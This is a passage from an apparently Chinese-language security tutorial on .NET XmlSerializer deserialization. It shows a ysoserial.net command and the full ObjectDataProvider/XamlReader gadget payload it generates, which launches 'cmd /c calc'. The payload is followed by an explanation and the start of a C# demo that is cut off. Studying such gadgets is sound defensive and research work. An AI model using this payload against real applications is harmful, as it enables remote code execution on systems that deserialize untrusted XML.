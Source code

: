 ```c#  
p.GetType(); //获取Person类的Type  
Type.GetType(&#34;Person&#34;); //Type类的静态方法GetType，引入传入字符串，必须是全限定名  
```  
最经典的攻击类就是`ObjectDataProvider`，利用`yso`生成  
```powershell  
C:\Users\nlrvana\Desktop\ysoserial.net-master\ysoserial\bin\Release&gt;ysoserial.exe -g ObjectDataProvider -c calc -f xmlserializer  
&lt;?xml version=&#34;1.0&#34;?&gt;  
&lt;root type=&#34;System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#34;&gt;  
    &lt;ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34; xmlns:xsd=&#34;http://www.w3.org/2001/XMLSchema&#34; &gt;  
        &lt;ExpandedElement/&gt;  
        &lt;ProjectedProperty0&gt;  
            &lt;MethodName&gt;Parse&lt;/MethodName&gt;  
            &lt;MethodParameters&gt;  
                &lt;anyType xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34; xmlns:xsd=&#34;http://www.w3.org/2001/XMLSchema&#34; xsi:type=&#34;xsd:string&#34;&gt;  
                    &lt;![CDATA[&lt;ResourceDictionary xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34; xmlns:d=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34; xmlns:b=&#34;clr-namespace:System;assembly=mscorlib&#34; xmlns:c=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&gt;&lt;ObjectDataProvider d:Key=&#34;&#34; ObjectType=&#34;{d:Type c:Process}&#34; MethodName=&#34;Start&#34;&gt;&lt;ObjectDataProvider.MethodParameters&gt;&lt;b:String&gt;cmd&lt;/b:String&gt;&lt;b:String&gt;/c calc&lt;/b:String&gt;&lt;/ObjectDataProvider.MethodParameters&gt;&lt;/ObjectDataProvider&gt;&lt;/ResourceDictionary&gt;]]&gt;  
                &lt;/anyType&gt;  
            &lt;/MethodParameters&gt;  
            &lt;ObjectInstance xsi:type=&#34;XamlReader&#34;&gt;&lt;/ObjectInstance&gt;  
        &lt;/ProjectedProperty0&gt;  
    &lt;/ExpandedWrapperOfXamlReaderObjectDataProvider&gt;  
&lt;/root&gt;  
```  
来介绍一下这个payload  
### ObjectDataProvider  
ObjectDataProvider类，位于`System.Windows.Data`命名空间下，可以调用任意被引用类中的方法，提供成员`ObjectInstance`用类似实例化类、成员`MethodName`调用指定类型的方法的名称、成员`MethodParameters`表示传递给方法的参数。  
```c#  
ObjectDataProvider object1 = new ObjectDataProvider();  
object1.ObjectInstance = new Person();  
object1.MethodName = &#34;Evil&#34;;  
object1.MethodParameters.Add(&#34;calc.exe&#34;);  
```  
再给`Person`类定义一个`Evil`方法，代码实现调用`System.Diagnostics.Process.Start()`启动新的进程弹出计算器。如果用`XmlSerializer`直接序列化抛出异常，因为在序列化过程中`ObjectInstance`这个成员类型未知，不过可以使用`ExpandedWrapper`扩展类在系统内部预知先加载相关实体的查询来避免异常错误。  
Demo  
```c#  
using System;  
using System.Diagnostics;  
using System.IO;  
using System.Text;  
using System.Windows.Data;  
using System.Xml.Serialization;  
using System.Data.Services.Internal;  
  
  
namespace XmlDeserialization  
{  
    [XmlRoot]  
    public class Person  
    {  
```